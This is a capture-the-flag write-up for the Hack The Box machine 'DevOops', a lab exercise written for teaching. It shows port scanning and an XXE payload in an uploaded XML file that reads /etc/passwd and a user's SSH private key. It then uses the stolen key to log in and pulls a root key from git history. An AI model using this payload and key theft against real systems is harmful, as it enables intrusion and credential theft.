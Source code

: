 :page-slug: devoops-writeup/
:page-date: 2018-10-16
:page-category: attacks
:page-subtitle: How to resolve HTB DevOops
:page-tags: security, htb, pwn, web
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/cover_sebbts.webp
:page-alt: Developers programming in an office
:page-description: In this article, we present how to exploit the vulnerabilities of DevOops, a Linux Hack the Box machine, and how to gain access and obtain the root flag.
:page-keywords: HTB, Security, Hack the Box, Web, Writeup, DevOops, Pentesting, Ethical Hacking
:page-author: Jonathan Armas
:page-writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/QckxruozjRg

= DevOops Writeup

== Scanning Phase

First, we check the IP of the
link:https://www.hackthebox.eu/home/machines/profile/140[DevOops]
machine and try a `ping`
to see if we have access.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/devoops2_zvgbqd.webp[ip]
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/ping_s9mmpa.webp[ping]

Then, we scan the ports with `nmap`.
In this case, we're going to use basic `nmap`.

.port scannning
[source, bash, linenums]
----
nmap 10.10.10.91
----

And, we see that ports `5000` and `22` are open.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/nmap_p4mnpl.webp[ip]

Then, we try to access port `5000` with our browser,
and it opens a web page with the contents of some feed.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/web_dudfix.webp[web-page]

As we can see on this page,
there is nothing more than an image there.
So, we’re going to scan the whole web server with `dirbuster`
to see if we can access something useful.

.Searching folders in machine
[source, bash, linenums]
----
dirb http://10.10.10.91:5000
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/dirb_cmg544.webp[dirb-scan]

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330846/blog/devoops-writeup/upload-page_ycfqze.webp[upload-page]

== Getting user

In the last step, we got an upload page,
because the page says we can upload `XML` files
with the tags Author, Subject and Content.
Then, we try to upload the following `XML` file.

.xml
[source, xml,linenums]
----
<post>
<Author>johnarmas</Author>
<Subject>test</Subject>
<heading>Reminder</heading>
<Content>test</Content>
</post>
----

The response of the server is:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330847/blog/devoops-writeup/upload-ok_cknf6r.webp[upload-ok]

So, because there is no other functionality on the server,
we can suspect that there is an `XML External Entity` (`XXE`) injection.
This is a type of attack against an application that parses `XML` input.
This may lead to, among other issues,
the disclosure of confidential data, and denial of service.
We can exploit it to retrieve the contents of files
by uploading a malicious `XML` file.

To test this we can upload the following file:

[source, xml,linenums]
----
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<post>
<Author>johnarmas</Author>
<Subject>hola</Subject>
<heading>Reminder</heading>
<Content>&xxe;</Content>
</post>
----

With this, we can retrieve the content of `/etc/passwd`
from the web server and test for `XXE` injection.
We can do it by manually uploading the file
or using a proxy like `burpsuite`
and sending the request to the repeater,
like in this example:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/upload-passwd_nji7ye.webp[upload-passwd]

What to do next?
When we uploaded our first `XML` file,
we could see from the response that the file
is stored on `/home/roosa/deploy/src`.
With this information, we could retrieve the user flag.
Usually, this file is on `/home/roosa/user.txt`,
and modifying our `XXE` we could do it,
but what about remote code execution?

In our scans, we saw port `22` is open,
so maybe we could retrieve a private key
to access the server with `ssh`.

In general, the ssh keys are named `id_rsa`,
so what happens if we try to obtain the file `/home/roosa/.ssh/id_rsa`?

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/private-key_awn4ee.webp[private-key]

We save the content in a file
and change the permission to `0600`
to be able to use it with `ssh` without trouble.

We save the content in a file
and change the permissions to `0600`
to be able to use it with `ssh` without trouble.

I like `nano`, but it could be with any other text editor.
Then, we access the server with those credentials.

.Access to the server
[source, bash, linenums]
----
nano roosekey
chmod 0600 roosekey
ssh -i roosekey roosa@10.10.10.91
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/ssh-access_mqawzd.webp[ssh-access]

== Enumerating the server

When we access the server,
the first thing we should do
is to check the files and the folders that we can access.

On this server,
we can see that there is a folder named `deploy`.
Let's see what's in there.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330846/blog/devoops-writeup/enum-folder_ophatw.webp[enum-folder]

There is another private key,
but when we try to elevate it as `root`, we get an error.
So, what could be happening?
Let's see what commands our user has typed.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/history_kyutfg.webp[history]

There we can see that our user has done a `ssh` to `localhost`
with the user `git`.
Let's try the same and see what happens.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/ssh-git_ulzwsx.webp[ssh-git]

== Getting root

We do the same with our user `git` to check the history.
There is a command to a route that we didn’t know that is `/srv/git/`.
We access another folder
named `blogfeed.git` and check what is in there.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/enum-folder-git_ltxppe.webp[enum-folder-git]

It looks like a normal `git` folder,
but there is no code in it.
Let's see what is on their log with:

.Repository log
[source, bash, linenums]
----
git log
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/git-log_hysxnl.webp[git-log]

Surprise, surprise...

In their log is an authentication key,
but to see its content
we need to use `git log` with more verbosity

.Repository log, verbose
[source, bash, linenums]
----
git log -p -8
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330847/blog/devoops-writeup/auth-key_kdkkca.webp[auth-key]

When we scroll down,
we can see the authentication key.
We need to copy it, remove the trailing plus symbols (only the first one)
and then, do the same with the first key we encounter.

We don’t know which user's key it is,
but we can try to find the `root` user.
It won't hurt anyone.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330847/blog/devoops-writeup/root_am4zjl.webp[root]

The key is, in fact, the user's `root`.
So, we can retrieve our `root` flag,
and the challenge is completed.

On this challenge `XXE`,
we learned to always check the `history`
when we gain access to a machine as a user,
and to check `git` repositories for credentials.
